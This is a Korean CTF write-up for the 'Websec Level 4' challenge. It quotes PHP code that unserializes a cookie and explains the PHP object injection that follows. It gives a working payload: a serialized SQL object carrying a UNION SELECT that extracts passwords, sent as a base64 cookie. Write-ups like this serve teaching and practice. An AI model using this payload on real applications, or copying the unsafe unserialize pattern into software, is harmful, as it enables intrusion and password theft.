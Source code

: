 ```yaml
---
title : "Websec - Level 4"
excerpt : "Websec - Level 4 Babysteps"
toc : true
toc_sticky : true
categories :
  - Websec
tags :
  - PHP object injection
---
```


## 1. Source code
```php
$sql = new SQL();
$sql->query = 'SELECT username FROM users WHERE id=';
if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
```
SQL 클래스의 소멸자 
```php
public function execute() {
        return $this->conn->query ($this->query);
    }

public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>'; # 이 부분 잊지 말기. 잊으면 바보같이 뻘짓함.
            }
        }
    }
```

## 2. Vulnerability

이 문제는 unserialize 함수를 이용한 **PHP object injection** 문제다.  
자세한 내용은 [PHP Object Injection](https://blog.do9.kr/150)  
**unserialize** 함수는 serialize된 문자열을 PHP 값으로 반환해주는 함수다.  
자세한 내용은 [PHP Serialize/Unserialize](http://chongmoa.com/php/6902)

코드를 보면 base64인코딩 된 쿠키 값을 디코딩 한 후 unserialize해서 변수에 담는다. **그 다음 주목할 부분은 try catch 구문이다.**
sess_data 변수 값이 배열이 아니라면 catch 구문으로 이동을 하고 예외상황을 출력한다. 이 부분이 unserialize 함수를 이용한 취약점이 터지는 곳이다.

## 3. Solution

쿠키 값에 SQL 객체를 serialize한 뒤 base64 인코딩 한 값을 줘야 한다. 
우선 플래그를 보려면 SQL 객체의 query 변수 값은 이렇게 되어야 한다.  
```select username from users where id=1 union select password from users where id=1```  
SQL 객체를 serialize를 해주면 이렇게 된다.  
```O:3:"SQL":1:{s:5:"query";s:81:"select username from users where id=1 union select password from users where id=1";}```  
이 문자열을 base64인코딩 해줘서 쿠키값으로 주면 catch 구문에서 sess_data 값을 출력을 해주므로 SQL 객체를 실행시켜서 소멸자에서 query를 실행시켜서 username에 플래그 값이 나온다.
 
